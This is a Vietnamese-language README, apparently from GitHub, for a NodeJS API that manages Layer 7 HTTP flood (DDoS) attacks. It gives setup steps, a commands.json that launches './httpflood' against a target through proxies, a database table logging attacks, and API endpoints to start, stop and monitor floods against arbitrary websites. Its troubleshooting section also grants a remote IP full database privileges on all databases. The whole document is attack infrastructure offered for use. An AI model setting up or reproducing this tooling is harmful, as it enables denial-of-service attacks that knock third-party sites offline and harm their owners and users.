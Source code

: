 <h2>Trình quản lý API NodeJS cho các cuộc tấn công Lớp 7</h2>

<h4>API này rất an toàn và nhanh chóng (mất 2 lần ping giữa API và phần phụ trợ, tức là ping là 60ms, sẽ chỉ mất 120ms để khởi động cuộc tấn công)</h4>

<h1>Cài đặt: trên centos</h1>

***cài đặt nodejs***
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express mysql
```
***cài đặt cơ sở dữ liệu***
```
sudo yum install mariadb-server
sudo systemctl start mariadb
sudo systemctl enable mariadb
sudo systemctl status mariadb
sudo mysql_secure_installation
mysql -u root -p
```
<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 8888
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 8888
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 10,
    "api_port": 8888
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 8888; // cổng API
const socket_token = "SECRET_TOKEN"; // mã thông báo bí mật của bạn để bảo vệ kết nối TCP
const allowed_ips = ['1.1.1.1']; // IP máy chủ API
```

<h3>Thiết lập cơ sở dữ liệu</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

***sử lý lỗi từ chối kết nối***

1 Truy cập MariaDB: Đăng nhập vào máy chủ chứa cơ sở dữ liệu MariaDB bằng tài khoản có quyền quản trị. Bạn có thể sử dụng lệnh sau để đăng nhập vào MariaDB:
```mysql -u root -p```

2 Thiết lập quyền truy cập cho máy chủ của bạn: MariaDB sử dụng kiểm tra quyền truy cập dựa trên địa chỉ IP. Để cho phép máy chủ của bạn kết nối, bạn cần cấp quyền cho địa chỉ IP của máy chủ đó.

```GRANT ALL PRIVILEGES ON *.* TO 'tên_tài_khoản'@'địa_chỉ_IP_máy_chủ' IDENTIFIED BY 'mật_khẩu';```

Trong đó:

`tên_tài_khoản` là tên tài khoản truy cập MariaDB.

`địa_chỉ_IP_máy_chủ` là địa chỉ IP của máy chủ cần kết nối.

`mật_khẩu` là mật khẩu của tài khoản.

Lưu ý rằng bạn cần phải thay thế các giá trị này bằng thông tin của bạn.

3 Làm mới quyền truy cập: Sau khi bạn đã thay đổi quyền, hãy làm mới quyền để áp dụng thay đổi:
```FLUSH PRIVILEGES;```

4 thoát
```exit;```

### Sau đó, tải `client.js` lên máy chủ tấn công và tải `api.js` `server.json` `command.json` `settings.json` lên máy chủ API
```
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/api.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/commands.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/settings.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/servers.json
```
```
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/client.js
```

### khởi động
```
screen -S APIv3 -dm node api.js
```
```
screen -S CLIENT -dm node client.js
```
### Proxy ngược

***Nên tạo proxy ngược bằng Nginx để sử dụng API của bạn:***

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:8888/api;
    }
}
```

Thay thế `'http://backend:3000/api'` bằng IP máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu tới API bằng các trường bắt buộc

`http://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API bằng ID tấn công

`http://api.yourdomain.com/api/stop?attack_id=[id]`

Bạn cũng có thể xem tất cả các cuộc tấn công đang diễn ra và việc sử dụng máy chủ bằng cách gửi yêu cầu tới API

`http://api.yourdomain.com/api/status`

Bạn cũng có thể dừng tất cả các cuộc tấn công gửi yêu cầu tới API

`http://api.yourdomain.com/api/stop_all`
